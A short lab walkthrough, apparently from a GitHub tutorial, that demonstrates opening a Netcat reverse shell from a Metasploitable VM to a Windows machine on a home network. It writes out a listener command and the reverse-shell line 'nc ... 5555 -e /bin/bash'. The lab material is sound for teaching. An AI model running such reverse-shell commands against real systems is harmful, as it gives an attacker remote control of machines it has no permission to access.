





We demonstrate how to open a remote shell through `Netcat`, allowing us to navigate the directories of Metasploitable using the physical machine.

To open a reverse shell, we need the IP address of the physical machine from which we will open the remote shell:

The address is `192.168.1.228`.

Now we open a listener on port `5555` of the physical machine using the command `ncat -nlvp 5555`:

From Metasploitable, we execute the command to open a remote shell to the physical machine's address `nc 192.168.1.228 5555 -e /bin/bash`:

From Windows, we can see that the connection was successful:

Now we can navigate the directories of Metasploitable from the Windows shell using the `ls` command:

